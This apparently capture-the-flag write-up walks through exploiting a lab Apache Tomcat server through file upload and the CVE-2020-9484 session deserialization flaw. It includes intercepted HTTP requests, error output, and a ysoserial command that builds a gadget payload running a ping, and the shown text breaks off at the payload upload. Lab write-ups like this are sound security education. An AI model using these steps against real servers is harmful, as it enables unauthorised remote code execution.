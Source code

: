 According to the Nmap scan, it is an **Apache Tomcat** web server, but the default _/manager_ directory cannot be found and is probably disabled.

Uploading a file to the service and intercepting the request with **Burpsuite** to analyze the application:
```
POST /upload.jsp?email=testuser@test.local HTTP/1.1
Host: 10.10.10.205:8080
(...)

-------------------------38175474526266468582873467086
Content-Disposition: form-data; name="image"; filename="test.txt"
Content-Type: text/plain

This is a test file!

-----------------------------38175474526266468582873467086--
```
```
File uploaded successfully!
```

The test file gets uploaded successfully, but when leaving the _filename_ empty, it responds with Java errors:
```
<div id="error">
java.io.FileNotFoundException: /opt/samples/uploads (Is a directory)
(...)
at org.apache.commons.fileupload.disk.DiskFileItem.write(DiskFileItem.java:394)
(...)
```

One of the errors is from the framework **Apache Commons** that has functions to serialize data, which means there may be a **Java Deserialization** vulnerability in this application.

By searching for vulnerabilities in **Tomcat version 9.0.27**, an [article from Red Timmy Security](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) can be found that describes a **Remote Code Execution** by deserialization.

A way to upload a serialized object to the disk is needed and when including it, the session ID will be obtained to gain code execution.

To create a serialized object, the tool [ysoserial](https://github.com/frohoff/ysoserial) will be used:
```
java -jar ysoserial.jar CommonsCollections4 "ping -c 1 10.10.14.7" > serialized.session
```

Uploading _serialized.session_ to the application:
```
POST /upload.jsp?email=testuser@test.local HTTP/1.1
(...)

Content-Disposition: form-data; name="image"; filename="serialized.session"
Content-Type: application/octet-stream

(...data...)
```
